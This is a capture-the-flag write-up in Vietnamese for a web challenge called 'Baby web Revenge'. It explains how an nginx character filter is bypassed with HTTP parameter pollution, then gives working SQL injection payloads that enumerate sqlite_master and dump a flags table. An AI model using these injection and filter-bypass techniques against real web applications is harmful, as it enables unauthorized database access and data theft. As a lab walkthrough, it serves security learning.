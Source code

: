 ## Baby web Revenge
Bài này về source giống hoàn toàn với bài Baby web nhưng chúng ta không thể tải được file db từ server nên trong bài này chúng ta phải tìm cách bypass được các
filter:
```
if ($args ~ [%]){
        	return 500;
        }

        if ( $arg_chall_id ~ [A-Za-z_.%]){
		return 500;
	}
```
Ban đầu mình thật sự không biết làm cách nào để có thể thực hiện query mà không sử dụng alphabetic characters.

Mình thử sử dụng 2 lần `chall_id` và thật bất ngờ nó hoạt động: 

`?chall_id=2&chall_id=1+UNION+select+1,null,null,null,null,null`

![](Images/img2.png)

Sau đó thì mình mới biết đây là param pollution

file config chỉ thực hiện kiểm tra trên param thứ nhất. Nhưng sau đó param thứ hai được đưa vào sẽ thực hiện ghi đè lên param lên param trước đó.

Đến đây thì chúng ta có thể solve bài này bằng cách dễ dàng:

Lấy tên table: `?chall_id=2&chall_id=1+UNION+select+null,name,null,null,null,null+from+sqlite_master`

![](Images/img3.png)

Có một table tên `therealflags`, rất có thể `flag` đang nằm trong table này.

Lấy flag: `?chall_id=2&chall_id=1+UNION+select+null,*,null,null,null+from+therealflags`

![](Images/img4.png)

